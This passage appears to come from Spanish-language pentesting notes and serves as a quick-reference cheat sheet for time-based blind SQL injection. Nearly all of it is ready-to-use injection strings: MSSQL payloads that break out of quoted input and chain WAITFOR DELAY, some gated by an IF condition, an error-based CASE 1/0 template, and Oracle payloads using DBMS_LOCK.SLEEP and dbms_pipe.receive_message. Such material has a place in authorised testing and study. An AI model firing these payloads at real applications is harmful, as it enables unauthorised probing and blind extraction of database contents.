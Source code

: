 ### Forma habitual

- `WAITFOR DELAY '00:00:10'` — formato `hh:mm:ss`.
    

### Contexto: dentro de comillas

```sql
' ; WAITFOR DELAY '00:00:10' --
```

O usando `IF` cuando estamos dentro de una clausula:

```sql
' ; IF (<condición>) WAITFOR DELAY '00:00:10' --
```

### Contexto: como parte de una expresión booleana (sin `;` disponible)

Podemos depender de que el motor permita `BEGIN...END` o sub‑consultas; ejemplo común en pruebas (plantilla):

```sql
' OR (SELECT CASE WHEN (<condición>) THEN 1/0 ELSE 1 END) = 1 --
```

Aunque este último es ejemplo de error‑based; para time‑based el uso típico sigue siendo `WAITFOR DELAY` cuando podemos ejecutar instrucciones separadas.

### Notas

- `WAITFOR` es la forma estándar.
    
- En algunos contextos transaccionales su uso puede comportarse distinto (bloqueos, timeouts), por lo que conviene ajustar los tiempos.
    


---

## Plantillas rápidas resumidas

- Oracle (PL/SQL posible):
    
```SQL
; BEGIN DBMS_LOCK.SLEEP(10); END; --
```

```SQL
' OR 1=(SELECT dbms_pipe.receive_message('a',10) FROM dual) --
```

- MSSQL:

```SQL
'; WAITFOR DELAY '00:00:10' --
```

```SQL
; IF (<condición>) WAITFOR DELAY '00:00:10' --
```
